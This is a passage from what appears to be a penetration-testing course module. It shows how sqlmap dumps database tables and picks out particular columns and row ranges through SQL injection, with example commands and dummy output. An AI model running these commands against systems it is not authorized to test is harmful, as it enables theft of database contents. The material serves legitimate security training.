 The console output shows that the table is dumped in formatted CSV format to a local file,Â `users.csv`.

Tip: Apart from default CSV, we can specify the output format with the option `--dump-format` to HTML or SQLite, so that we can later further investigate the DB in an SQLite environment.

![sqlite](https://academy.hackthebox.com/storage/modules/58/pVBXxRz.png)

---

## Table/Row Enumeration

When dealing with large tables with many columns and/or rows, we can specify the columns (e.g., onlyÂ `name`Â andÂ `surname`Â columns) with theÂ `-C`Â option, as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname

...SNIP...
Database: testdb

Table: users
[4 entries]
+--------+------------+
| name   | surname    |
+--------+------------+
| luther | blisset    |
| fluffy | bunny      |
| wu     | ming       |
| NULL   | nameisnull |
+--------+------------+
```

To narrow down the rows based on their ordinal number(s) inside the table, we can specify the rows with theÂ `--start`Â andÂ `--stop`Â options (e.g., start from 2nd up to 3rd entry), as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --start=2 --stop=3

...SNIP...
Database: testdb

Table: users
[2 entries]
+----+--------+---------+
| id | name   | surname |
+----+--------+---------+
| 2  | fluffy | bunny   |
| 3  | wu     | ming    |
+----+--------+---------+
```

---